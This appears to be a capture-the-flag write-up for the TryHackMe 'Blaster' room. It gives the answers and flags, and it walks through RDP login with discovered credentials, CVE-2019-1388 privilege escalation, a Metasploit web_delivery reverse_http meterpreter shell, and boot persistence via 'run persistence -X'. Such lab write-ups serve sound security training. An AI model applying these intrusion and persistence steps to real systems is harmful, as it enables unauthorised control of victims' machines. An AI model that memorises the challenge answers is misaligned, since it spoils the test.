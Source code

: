 # Blaster 

> John Hammond | August 22nd, 2020

---------------------

```
10.10.106.233
```

# Task 1

1. How many ports are open on our target system?


```
2
```

2. Looks like there's a web server running, what is the title of the page we discover when browsing to it?


```
IIS Windows Server
```

3. Interesting, let's see if there's anything else on this web server by fuzzing it. What hidden directory do we discover?

```
/retro
```

4. Navigate to our discovered hidden directory, what potential username do we discover?

```
wade
```

5. Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?

```
parzival
```

6. Log into the machine via Microsoft Remote Desktop (MSRDP) and read user.txt. What are it's contents?

```
THM{HACK_PLAYER_ONE}
```


# Task 2

1. 	When enumerating a machine, it's often useful to look at what the user was last doing. Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?


```
CVE-2019-1388
```

Supposed to be found while looking through browser history

2. Looks like an executable file is necessary for exploitation of this vulnerability and the user didn't really clean up very well after testing it. What is the name of this executable?

```
hhupd
```

3. Research vulnerability and how to exploit it. Exploit it now to gain an elevated terminal!


4. Now that we've spawned a terminal, let's go ahead and run the command 'whoami'. What is the output of running this?

```
nt authority\system
```


5. 	
Now that we've confirmed that we have an elevated prompt, read the contents of root.txt on the Administrator's desktop. What are the contents? Keep your terminal up after exploitation so we can use it in task four!

```
THM{COIN_OPERATED_EXPLOITATION}
```

# Task 3

1. Return to your attacker machine for this next bit. Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web_delivery' for use.


2. First, let's set the target to PSH (PowerShell). Which target number is PSH?

```
2
```

3. After setting your payload, set your lhost and lport accordingly such that you know which port the MSF web server is going to run on and that it'll be running on the TryHackMe network.

4. Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload windows/meterpreter/reverse_http'. Following this, launch the attack as a job with the command 'run -j'.

5. 	Return to the terminal we spawned with our exploit. In this terminal, paste the command output by Metasploit after the job was launched. In this case, I've found it particularly helpful to host a simple python web server (python3 -m http.server) and host the command in a text file as copy and paste between the machines won't always work. Once you've run this command, return to our attacker machine and note that our reverse shell has spawned.


6. Last but certainly not least, let's look at persistence mechanisms via Metasploit. What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot startup. 

```
run persistence -X
```

7. 	
Run this command now with options that allow it to connect back to your host machine should the system reboot. Note, you'll need to create a listener via the handler exploit to allow for this remote connection in actual practice. Congrats, you've now gain full control over the remote host and have established persistence for further operations!